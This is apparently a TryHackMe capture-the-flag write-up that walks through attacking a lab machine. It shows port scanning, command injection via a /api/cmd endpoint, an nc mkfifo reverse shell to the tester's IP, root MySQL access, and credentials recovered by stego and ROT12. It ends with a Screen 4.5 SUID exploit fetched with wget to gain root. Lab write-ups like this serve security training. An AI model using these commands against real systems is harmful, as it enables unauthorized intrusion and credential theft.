 ### Enumerating

First we enumerate with 

```
nmap -p- $ip
nmap -sV -p 22,3306,9999,15065,16109,46969

```

![[Pasted image 20211124135525.png]]

There is a port for website; 15065 but its maintenance
![[Pasted image 20211124135712.png]]

Who is Dan? Okay let's just keep note on him for now.
Let's start enumerating with dirsearch.py

![[Pasted image 20211124140243.png]]

### Reverse Shell - Web

There is a dir to /monitor. When we inspect it we get to observe comments 

![[Pasted image 20211124140148.png]]

In bash terminal, we can put semicolone ; to execute next command. Let's try to enter our IP and 'whoami'

![[Pasted image 20211124140734.png]]

Seems like it doesnt allow us to do so, lets try to observe the javacsript.  I'm using sublime to copy and paste the main.js

![[Pasted image 20211124141337.png]]

But I guess it looks complicated to deobfuscate it; so let's observe how the pinging works. 
![[Pasted image 20211124141916.png]]

Over here we can see that there is a process called 'cmd' that is running the command 'ping -c 4 10.4.44.74'  and its requesting with POST method to /api/cmd

![[Pasted image 20211124142505.png]]

I wonder if we can curl through it from our machine directly.
`curl 10.10.71.59/api/cmd -X POST -d "whoami"`

where -d means data that is being send along with POST

![[Pasted image 20211124142814.png]]

Now let's try to spawn a reverse shell. Go to revshells.com and grab your line quick!

I'm using nc mkfifo and start a listener on my terminal
`rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.4.44.74 1234 >/tmp/f`

![[Pasted image 20211124143027.png]]
(apparently there's a glitch in my terminal .__. )

Since this is a KOTH room, we should try to exploit more ways to infiltrate. Let's try MySQL from the nmap service we saw earlier.

### MySQL

From our Machine, lets try;

`mysql -h 10.10.71.59 -u root -p`

```
show databases;
use users;
show tables;
select * from User;
```

![[Pasted image 20211124144056.png]]

thm{2f30841ff8d9646845295135adda8332} 

Let's try to SSH it	, it seems the password and username is working fine

![[Pasted image 20211124144925.png]]

Let's try port number 16109. Now since we dont know much about it we can try nc or curl and see what response we would get.

![[Pasted image 20211124145112.png]]

Looks like someone is treating us for lunch
![[Pasted image 20211124145214.png]]

This is fishy, but let's try to stegseek it

![[Pasted image 20211124145301.png]]

Welp boom, we are given this credential

`pasta:pastaisdynamic`

And of course let's try to SSH it again
![[Pasted image 20211124145445.png]]
Yep, we got it.

But so far none can run sudo commands with `sudo -l`

Lets hope on to the last port number which nmap identified it as telnet. Let's try to telnet to the target machine

![[Pasted image 20211124145850.png]]

Found something really interesting, lets run it to cyberchef. It looks like its ROT but not sure what number.
tccr:uwjsasqccywsg

ROT13 is the most common but since it's wrong, I tweak a bit and got it that its ROT12 actually with this credential

`food:givemecookies`

We can SSH into Food account but unfortunately there are restrictions imposed on user Food. Let's get into other account and try to privesc.

We can try to find any SUID by using this command
`find / -type f -perm 4000 2>/dev/null`

There is an unusual file with SUID permission. We can try to exploit that Screen 4.50. Read more here -> https://www.exploit-db.com/exploits/41154
From our machine, let's do

```
searchsploit screen 4.5
locate linux/local/41154.sh
cp /usr/share/exploitdb/exploits/linux/local/41154.sh .
python3 -m http.server
```

![[Pasted image 20211124151119.png]]

And over the target machine we would just wget it
`wget http://10.4.44.74:8000/41154.sh`

And execute it.
`./41154.sh`

Now we are root.

![[Pasted image 20211124151143.png]]

and we can obtain the flag7 in the tryhackme directory.




